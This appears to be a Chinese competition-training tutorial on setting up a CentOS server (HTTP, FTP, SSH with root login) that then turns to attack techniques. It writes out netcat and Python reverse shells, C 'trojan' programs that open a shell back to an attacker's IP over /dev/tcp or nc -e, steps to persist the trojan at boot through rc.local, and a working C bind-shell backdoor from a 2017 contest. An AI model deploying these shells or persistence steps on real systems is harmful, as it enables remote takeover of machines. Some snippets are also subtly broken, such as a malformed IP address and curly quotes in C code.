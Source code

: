 # centos比赛场景的服务器场景还原


### centos 自动联网
```shell
>>>cd /etc/sysconfig/network-scripts
>>>vi ifcfg-eth0 #修改ONBOOT=no 改为 ONBOOT=yes
>>>service network restart
```
### HTTP服务的安装
>下面是基础的使用知识，附赠一个php站点的搭建实例[dvwa搭建](http://blog.csdn.net/isinstance/article/details/54090936)
```shell
>>> yum install httpd 
>>> vim /etc/httpd/conf/httpd.conf #apache2的配置(题外话：apt-get install apache2　是一样的)
>>> echo "hello class" > /var/www/html/index.html #写一个首页
>>> service httpd restart

```

### FTP服务的安装

安装后要把chroot_list_enable=NO这样设置，不然就要指定chroot_list
```shell
>>>yum install -y vsftpd #安装ftp服务
>>>yum install -y lftp #安装测试ftp服务的工具
>>>vim /etc/vsftpd/vsftpd.conf
>>>service vsftpd start #启动ftp服务
>>>service vsftpd status #查看服务的状态
>>>lftp 127.0.0.1 #查看是否可以链接ftp
>>>lftp 127.0.0.1 -u root #指定用户登录
```


### SSH服务的安装

```shell
>>>yum install openssh*#安装ssh服务，对应的(apt-get install ssh)
```
```shell
vi /etc/ssh/sshd_config #打开配置文件
```
把下面两个配置的＃去掉
```shell
PermitEmptyPasswords no
PasswordAuthentication yes
PermitRootLogin yes　＃确保root可以登录，同理如果做安全加固，这里要注释掉
```
重启
```shell
service sshd.service restart #重启服务
chkconfig sshd on　#设置开机启动
```

### GCC的安装
>gcc是c语言程序的编译程序

```shell
>>> yum install gcc* 
```

### python
>python是自带的不需要安装。。

### nmap
>[nmap详解](http://blog.csdn.net/github_35068711/article/details/51530422)

### c语言编译
>这里面我们讲解一下c语言程序简单的编译技巧
首先安装gcc
```shell
>>> yum install gcc*
```
其次写一个c代码的文件hello.c
```c
#include<stdlib.h>
    int main(int argc,char **argv)
    {
        printf("Hello,Linux.\n");
        exit(0);
    }
```
对单个文件进行编译

```shell
>>>gcc -o hello hello.c
>>>./hello #执行
```

### nc反射
>nc全名是netcat　是一个网络工具，这里面我们使用它来完成我们的反射需要两个电脑

在自己电脑上开启一个端口监听
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> nc -e /bin/bash 192.168.1.101 8080 #在目标电脑上反向连接我们的电脑8080端口，ip是我们自己的ip
>>> ifconfig #在我们自己电脑上执行命令，这就可以对服务器进行操作了，这个叫反射
```
下面我们来完成一个python语言版本的shell反射
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
>>> ifconfig #在本机执行命令
```

### 下面完成我们的任务，编译一个木马，然后利用nc反射一个shell
先编写一个简单的反射shell的c代码
```c
#include<stdlib.h>
main()
{
system(“bash -i >& /dev/tcp/10.0.0.1/8080 0>&1”);
}
```
或者用下面的版本system.c，反正都是简单的实现
```c
#include<stdlib.h>
int main(int argc,char* argv[])
{
char shell_cmd[100];
sprintf(shell_cmd,"nc -e /bin/bash %s %s",argv[1],argv[2]);
system(shell_cmd);
}
```
### 下面我们来完成完成编译，执行，反射

```shell
>>> gcc -o shelltest system.c #编译c代码
>>> chmod +x shelltest
>>> nc -l -p 8080 #本地电脑监听8080端口
>>>./shelltest 127.0.0.1 8080 ＃目标电脑木马反向连接自己的电脑
>>> ifconfig #本地电脑执行命令验证结果
```
### 让我们把这个小“木马”放进开机启动
```shell
>>>chmod +x shelltest
>>>chmod +x /etc/rc.d/rc.local 
>>>vim /etc/rc.d/rc.local＃编辑它并在里面协商/xxx/xx/xx/shelltest　192.168.1.109 8080 &
>>>reboot #重启看看效果
```
### 2017比赛c语言的木马分析
>如下是原版本的木马文件，我们可以看到它使用了socket模块，根据代码内容可以看到这是一个服务端的代码因此不是我们上述讲过的nc反射的原理，实际上原理更简单了，从如下的代码可以看出来本题考的内容是c代码的编写能力，和对socket的了解
```c
#include <unistd.h>
#include <sys/socket.h> #载入相关的模块，模块的用法需要对照开发文档
#include <netinet/in.h>

int sock,cli;#初始化变量
struct sockaddr_in serv_addr; #定义结构体

int main() #入口函数
{
serv_addr.sin_family = 2; #定义结构体的变量值，当然2是不对的可能是对应考题答案
serv_addr.sin_addr.s_addr = 0;#这里填写完网卡地址
serv_addr.sin_port = 0x901F;#这个大端端口号，大小端是c的一个概念，想知道的可以百度查询

sock = socket(2,1,0);#实例化队形
bind(sock,(struct sockaddr *)&serv_addr,0x10);#绑定端口
listen(sock,1);#开启监听，看到listen就可以理解为这是一个服务端程序
cli = accept(sock,0,0);#accept（）是c语言tcp产生的队列需要的函数
dup2(cli,0);#dup2重定向cli
dup2(cli,1);
dup2(cli,2);
execve("/bin/sh",0,0);#执行服务器上的sh，这里明显看出这是个后门文件，允许链接特定端口
```
上面代码是不可使用的，针对性修改版本如下

```c
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int sock,cli;
struct sockaddr_in serv_addr;

int main()
{
serv_addr.sin_family =AF_INET;
serv_addr.sin_addr.s_addr =INADDR_ANY;
serv_addr.sin_port =0x901F;

sock = socket(AF_INET,SOCK_STREAM,0);
bind(sock,(struct sockaddr *)&serv_addr,0x10);
listen(sock,1);
cli = accept(sock,0,0);
dup2(cli,0);
dup2(cli,1);
dup2(cli,2);
execve("/bin/sh",0,0);
}
```
服务端执行如下：
```shell
>>>gcc -o test test.c
>>>chmod +x test
>>>./test
```
客户端执行如下：
```shell
>>>nc 192168.1.111 8080
>>>ifconfig #查看Ip成功表示没问题
```
